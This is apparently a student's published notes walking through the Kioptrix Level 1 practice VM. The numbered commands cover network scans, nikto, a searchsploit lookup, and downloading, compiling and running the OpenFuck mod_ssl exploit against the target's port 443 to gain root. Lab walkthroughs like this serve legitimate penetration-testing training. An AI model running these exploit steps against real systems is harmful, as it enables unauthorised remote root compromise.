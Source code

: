 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/02-pentesting/d11-05-mar/kioptrix-level-1/"}
---
```


# **Kioptrix Level 1**

1) ifconfig {note down your ip}
2) net discover -r 192.168.5.60(your ip )
![attachments/Pasted image 20250319185539.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319185539.png)

3) nmap -Pn 192.168.5.203  {to find the target ip }
![attachments/Pasted image 20250319190100.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190100.png)

4) nmap -T4 -sC -sV -v -Pn 192.168.5.203 -oN kioptrix
![attachments/Pasted image 20250319190124.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190124.png)

5) cat kioptrix | grep open
![attachments/Pasted image 20250319190134.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190134.png)

6) disable the burp in firefox
![attachments/Pasted image 20250319190148.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190148.png)

7) hit the target ip in firebox browswer : 192.168.5.203
![attachments/Pasted image 20250319190206.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190206.png)

8) nikto -h http://192.168.5.203
![attachments/Pasted image 20250319190218.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190218.png)

9) nikto -h http://192.169.5.203
![attachments/Pasted image 20250319190229.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190229.png)

10) nikto -h http://192.168.5.203 > kiopritix_nikto → then control+c
![attachments/Pasted image 20250319190244.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190244.png)

11) searchsploit mod ssl 2.8.4
![attachments/Pasted image 20250319190257.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190257.png)

12) searchsploit -m 47080
![attachments/Pasted image 20250319190308.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190308.png)

13) apt update
14) open github link in firefox of kali : [openfuck github link](https://github.com/RafaelM1994/InfoSec/blob/master/c_files/openfuck_updated.c) and download.
![attachments/Pasted image 20250319190335.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190335.png)

15) apt-get install libssl-dev
16) cd Downloads -> ls -l
![attachments/Pasted image 20250319190355.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190355.png)

17) gcc -o openfuck openfuck_updated.c -lcrypto
![attachments/Pasted image 20250319190418.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190418.png)

18) ./openfuck 0x6b 192.168.5.203 443 -c 40
![attachments/Pasted image 20250319190430.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190430.png)

19) type id
![attachments/Pasted image 20250319190440.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190440.png)
- you got the root access !! 👾🥷🔪

19) nano 47080.c
![attachments/Pasted image 20250319190505.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190505.png)

20) then ctrl + F → https
![attachments/Pasted image 20250319190523.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190523.png)

21) edit the https → http → ctrl +s → ctrl + x
![attachments/Pasted image 20250319190540.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190540.png)

22) ./openfuck 0x6b 192.168.5.203 443 -c 40
![attachments/Pasted image 20250319190552.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190552.png)

23) type id
![attachments/Pasted image 20250319190604.png](/img/user/Cybersecurity/02_Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190604.png)

#                                    ---****---

